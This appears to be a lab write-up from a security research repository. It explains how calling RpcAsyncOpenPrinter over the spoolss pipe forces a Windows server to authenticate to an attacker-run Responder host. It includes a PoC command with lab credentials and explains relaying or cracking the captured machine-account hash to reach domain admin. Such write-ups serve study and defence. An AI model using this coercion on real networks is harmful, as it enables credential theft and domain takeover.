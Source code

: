 # MS-PAR - Remote call to RpcAsyncOpenPrinter (opnum 0)

## Summary

+ **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

+ **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

+ **Protocol version**: 1.0

+ **Function name**: [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a)

+ **Function operation number**: `0`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `76f03f96-cdfd-44fc-a22c-64950a001209`, version `1.0`) in order to perform calls to RPC functions of the `MS-PAR` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. It will then call the remote [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncOpenPrinter('\\192.168.2.51\test\\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcAsyncOpenPrinter(
    [in] handle_t hRemoteBinding,
    [in, string, unique] wchar_t* pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired,
    [in] SPLCLIENT_CONTAINER* pClientInfo
);
```

+ **hRemoteBinding**: An RPC explicit binding handle.

## References

+ Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0


+ Documentation of function `RpcAsyncOpenPrinter`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a